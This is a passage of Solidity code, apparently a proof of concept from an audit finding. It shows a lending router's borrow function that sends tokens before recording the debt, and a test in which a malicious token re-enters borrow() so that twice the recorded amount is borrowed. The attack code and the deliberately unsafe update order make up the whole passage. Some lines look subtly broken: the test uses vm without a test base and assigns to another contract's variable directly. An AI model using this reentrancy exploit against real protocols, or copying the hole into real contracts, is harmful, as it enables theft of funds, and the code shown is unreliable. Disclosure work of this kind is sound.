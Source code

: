 ```solidity
        // Transfer triggers reentrancy
        IERC20(_token).transfer(msg.sender, _amount);

        lendStorage.distributeBorrowerLend(_lToken, msg.sender);

        uint256 currentBorrowIndex = LTokenMock(_lToken).borrowIndex();
        if (currentBorrow.borrowIndex != 0) {
            uint256 _newPrinciple = (currentBorrow.amount * currentBorrowIndex) / currentBorrow.borrowIndex;
            lendStorage.updateBorrowBalance(msg.sender, _lToken, _newPrinciple + _amount, currentBorrowIndex);
        } else {
            lendStorage.updateBorrowBalance(msg.sender, _lToken, _amount, currentBorrowIndex);
        }

        lendStorage.addUserBorrowedAsset(msg.sender, _lToken);

        emit BorrowSuccess(msg.sender, _lToken, lendStorage.getBorrowBalance(msg.sender, _lToken).amount);
    }
}

contract PoC_Test {
    LendStorageMock public lendStorage;
    LTokenMock public lToken;
    MaliciousToken public maliciousToken;
    CoreRouter public router;
    address public attacker = address(0x1);

    constructor() {
        lendStorage = new LendStorageMock();
        lToken = new LTokenMock();
        maliciousToken = new MaliciousToken(address(0), attacker);
        router = new CoreRouter(address(lendStorage), address(lToken), address(maliciousToken));
        maliciousToken.router = router; // Set router after deployment
    }

    function test_ReentrancyBorrow() external {
        vm.startPrank(attacker);
        router.borrow(500e6, address(maliciousToken));
        vm.stopPrank();

        uint256 actualBorrow = lToken.borrowBalance(attacker);
        uint256 recordedBorrow = lendStorage.getBorrowBalance(attacker, address(lToken)).amount;

        assert(actualBorrow == 1000e6); // Borrowed twice
        assert(recordedBorrow == 500e6); // Only one borrow recorded
    }
}
```
